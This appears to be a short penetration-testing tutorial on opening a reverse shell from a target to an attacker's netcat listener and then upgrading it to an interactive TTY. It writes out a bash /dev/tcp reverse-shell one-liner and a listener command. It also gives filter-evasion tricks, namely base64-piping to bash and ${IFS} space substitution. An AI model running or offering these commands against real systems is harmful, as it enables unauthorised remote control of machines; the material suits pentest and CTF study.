 Getting a reverse shell can be done in multiple ways and a lot of documentation on how to do this is already available. My goto cheatsheet is from [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

## Getting the reverse shell

### Attacker host
On the attackers host ncat should be running. The easiest way is by using the following command: `nc -lvnp 9000` which will listen on port 9000

### Target host
On the target host one of severalcommands that could be used. The command I use the most is: `bash -i >& /dev/tcp/<ip from attacker host>/9000 0>&1`. If that doesn't work, others might. See  [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) for alternatives.

Sometimes the command doesn't work directly, some tricks to get it working are:

- prepend with `bash -c` to run the command in bash itself
- encode it as base64 and run the following: `echo <base64> | bas64 -d | bash`
- replaces spaces with ${IFS}

## Upgrading the reverse shell

Once the reverse shell is connected, the shell might not really be very functional (no working history/arrow keys, not tab completion, no indicator that you are in a shell, etc.) and very fragile (a simpel CTRL+C might break the shell).

In order to get a more functional shell you might want to start bash (or any other shell that is available). This can be done in several ways and I list the once I use most often:
- `python -c 'import pty; pty.spawn("/bin/bash")'`
- `/bin/bash -i`

In order to get tab completion and arrow keys working, you can use the following method:
(source: https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

- Press CTRL+Z to send the reverse shell to the background
- Run the following command: `stty raw -echo`
- Execute `fg` to get back to the reverse shell

Sometimes, this doesn't work and you are stuck with a partial shell...